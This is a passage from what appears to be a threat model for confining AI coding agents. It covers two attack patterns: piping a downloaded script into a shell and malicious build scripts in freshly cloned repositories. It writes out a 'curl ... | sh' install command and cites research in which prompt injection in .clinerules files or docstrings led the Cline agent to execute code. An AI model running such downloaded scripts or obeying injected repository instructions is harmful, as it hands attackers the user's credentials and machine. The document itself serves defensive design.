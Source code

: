 \textbf{Attack pattern.} An agent or user invokes
\texttt{curl\ -fsSL\ https://example.com/install.sh\ \textbar{}\ sh}.
The script runs immediately with full user privileges. Common follow-on
actions: credential harvesting, backdoor installation, modification of
\texttt{\textasciitilde{}/.bashrc}/\texttt{\textasciitilde{}/.zshrc} for
persistence, reconnaissance.

\textbf{Confinement approach.} An inspect-only posture denies all
network and all execution outside an inspection-tool set, so a
downloaded script cannot be run by default. Running the installer is a
deliberate move to an install-capable confinement with the specific
source allowed. The default refuses to execute downloaded shell scripts;
the user consents deliberately.

\textbf{Residuals.} Once the user authorises an install-capable
confinement for a specific URL, that URL is trusted. The confinement
cannot evaluate the script's contents; it bounds what the script can do
once running.

\textbf{MITRE ATT\&CK.} T1059.004 (Unix Shell), T1105 (Ingress Tool
Transfer).

\hypertarget{t1.5-build-script-in-a-freshly-cloned-unvetted-repository}{%
\section{T1.5 --- Build script in a freshly cloned, unvetted
repository}\label{t1.5-build-script-in-a-freshly-cloned-unvetted-repository}}

\textbf{Definition.} A user clones a repository to inspect its code, and
the act of opening or building it triggers attacker-controlled scripts
(Makefile, \texttt{package.json} scripts, postinstall hooks,
\texttt{.vscode/tasks.json}).

\textbf{Observed instances.} The Nx attack (T1.1, T1.2) is triggered by
\texttt{npm\ install}. The Mindgard Cline research demonstrated that
simply opening a malicious repository in an IDE with the Cline extension
could trigger code execution via prompt injection in
\texttt{.clinerules} or docstrings.

\textbf{Attack pattern.} The user clones, the IDE indexes and opens the
repository, the agent or build system processes files, and malicious
code executes. Particularly acute for AI agents because ``analyse this
repository'' often involves the agent reading config files, running
tooling, or invoking the project's build system.

